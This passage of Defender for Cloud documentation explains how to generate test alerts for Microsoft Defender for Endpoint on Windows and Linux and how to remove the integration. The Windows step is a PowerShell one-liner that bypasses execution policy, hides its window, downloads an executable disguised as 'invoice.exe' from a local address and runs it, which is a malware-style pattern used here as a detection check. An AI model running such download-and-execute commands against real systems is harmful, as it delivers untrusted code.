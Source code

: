 ### [**Windows**](#tab/windows)

For endpoints running Windows:

1. Create a folder 'C:\test-MDATP-test'.
1. Use Remote Desktop to access your machine.
1. Open a command-line window.
1. At the prompt, copy and run the following command. The command prompt window will close automatically.

    ```powershell
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe'); Start-Process 'C:\\test-MDATP-test\\invoice.exe'
    ```
    :::image type="content" source="./media/integration-defender-for-endpoint/generate-edr-alert.png" alt-text="A command prompt window with the command to generate a test alert.":::

    If the command is successful, you'll see a new alert on the workload protection dashboard and the Microsoft Defender for Endpoint portal. This alert might take a few minutes to appear.
1. To review the alert in Defender for Cloud, go to **Security alerts** > **Suspicious PowerShell CommandLine**.
1. From the investigation window, select the link to go to the Microsoft Defender for Endpoint portal.

    > [!TIP]
    > The alert is triggered with **Informational** severity.


### [**Linux**](#tab/linux)

For endpoints running Linux:

1. Download the test alert tool from https://aka.ms/LinuxDIY
1. Extract the contents of the zip file and execute this shell script:

    `./mde_linux_edr_diy`

    If the command is successful, you'll see a new alert on the workload protection dashboard and the Microsoft Defender for Endpoint portal. This alert might take a few minutes to appear.

1. To review the alert in Defender for Cloud, go to **Security alerts** > **Enumeration of files with sensitive data**.
1. From the investigation window, select the link to go to the Microsoft Defender for Endpoint portal.

    > [!TIP]
    > The alert is triggered with **Low** severity.

--- 

## Remove Defender for Endpoint from a machine

To remove the Defender for Endpoint solution from your machines:

1. Disable the integration:
    1. From Defender for Cloud's menu, select **Environment settings** and select the subscription with the relevant machines.
    1. Open **Integrations** and clear the checkbox for **Allow Microsoft Defender for Endpoint to access my data**.
    1. Select **Save**.
